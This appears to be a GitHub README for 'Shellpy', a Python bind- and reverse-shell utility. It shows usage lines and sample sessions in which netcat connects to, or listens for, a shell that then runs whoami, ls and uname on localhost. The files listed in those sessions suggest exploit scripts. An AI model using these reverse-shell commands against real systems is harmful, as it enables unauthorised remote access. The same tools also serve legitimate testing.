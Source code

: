 ## Shellpy
A computer networking utility for create shell from or connect shell to servers. 
This is the best, simplest, smallest, easiest and friendliest tool that can support
enough basic features for remote shell. Athough the options still less and simple, but if 
Github community likes this tool, I will grow this more with more features and cleaner
work.

## Usage
Bind shell: `python[3] sp.py PORT`  
Reverse shell: `python[3] sp.py HOST PORT`

## UI
#### Bind:
```shell
shelld3v@sh1:~$ python sp.py 4242
Listening on 4242 ...
Connected from 127.0.0.1 to [0.0.0.0] 4242
```
```shell
shelld3v@sh2:~$ nc 127.0.1 4242
sh: limited access in this shell
sh-1.0$ whoami
shelld3v
sh-1.0$ ls
crypto.sh
dirsearch
exploit.py
exploit.sh
flunym0us
frag.c
frag.sh
gitlab
go
go1.12.9.linux-amd64.tar.gz
HTTP
nginxrce.py
oracle2.py
oracle.py
phprce.py
richfaces-elinjection.py
wordpress9978.py
sh-1.0$ uname -a
Linux sh1 4.4.0-17763-Microsoft #1217-Microsoft Mon May 05 16:09:00 PST 2020 x86_64 GNU/Linux
sh-1.0$ w
 20:09:33 up  3:32,  0 users,  load average: 0.52, 0.58, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sh-1.0$ exit
exit
```
#### Reverse:
```shell
shelld3v@sh1:~$ python sp.py 127.0.1 4242
Connected from 0.0.0.0 to [127.0.0.1] 4242
```
```shell
shelld3v@sh2:~$ nc -lvp 4242
listening on [any] 4242 ...
connect to [127.0.0.1] from sh1 [127.0.0.1] 32634
sh: limited access in this shell
sh-1.0$ whoami
shelld3v
sh-1.0$ ls
crypto.sh
dirsearch
exploit.py
exploit.sh
flunym0us
frag.c
frag.sh
gitlab
go
go1.12.9.linux-amd64.tar.gz
HTTP
nginxrce.py
oracle2.py
oracle.py
phprce.py
richfaces-elinjection.py
wordpress9978.py
sh-1.0$ uname -a
Linux sh1 4.4.0-17763-Microsoft #1217-Microsoft Mon May 05 16:09:00 PST 2020 x86_64 GNU/Linux
sh-1.0$ w
 20:09:33 up  3:32,  0 users,  load average: 0.52, 0.58, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sh-1.0$ exit
exit
```
